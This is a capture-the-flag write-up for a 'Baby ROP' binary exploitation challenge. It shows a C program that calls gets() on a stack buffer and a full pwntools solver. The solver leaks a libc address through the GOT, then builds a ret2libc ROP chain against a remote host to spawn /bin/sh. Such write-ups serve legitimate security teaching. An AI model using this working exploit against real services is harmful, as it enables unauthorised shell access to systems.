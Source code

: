 ## Baby ROP
![challenge](../images/Baby_rop.png)

### Source Code
```c
#include <stdio.h>
int setup(){
   	setvbuf(stderr, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	return setvbuf(stdin, NULL, _IONBF, 0);
}
int main(){
    setup();
    char buf[50];
    puts("Whatever you say : ");
    gets(buf);
    return 0;
}
```

### Overview
This challenge is a Ret2libc attack since ```NX``` is enabled. We need to leak an address from GOT(Global Offset Table) as an exemple I choosed ```puts``` here. Then check the LIBC leak database (https://libc.rip/ is the best libc-database search-engine) in order to download it and calculate ```libc.address```. Finally build ```system('/bin/sh')``` ROPchain to pop up a shell. Also don't forget the "ret" gadget to avoid stack alignment issue.


### Solver
```py
from pwn import *

libc = ELF('libc6_2.27-3ubuntu1.5_amd64.so',checksec=False)
elf = context.binary = ELF('./main')
#p = process(elf.path)
p = remote('20.216.40.184',10002)

offset = b'a'*72

rop = ROP(elf)
rop.call(elf.plt.puts, [elf.got.puts])
rop.call(elf.sym.main)
log.info(rop.dump())
pay = offset + rop.chain()

p.sendline(pay)
p.recvline()

resp = p.recvline().strip()
leak = u64(resp.ljust(8, b'\x00'))
log.info(f"puts Leak : {hex(leak)}")

libc.address = leak - libc.sym.puts
log.info(f"libc Address : {hex(libc.address)}")

payload = offset
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(next(libc.search(b'/bin/sh')))
payload += p64(rop.find_gadget(['ret'])[0])
payload += p64(libc.sym.system)

p.recvline()
p.sendline(payload)
p.interactive()
p.close()
```
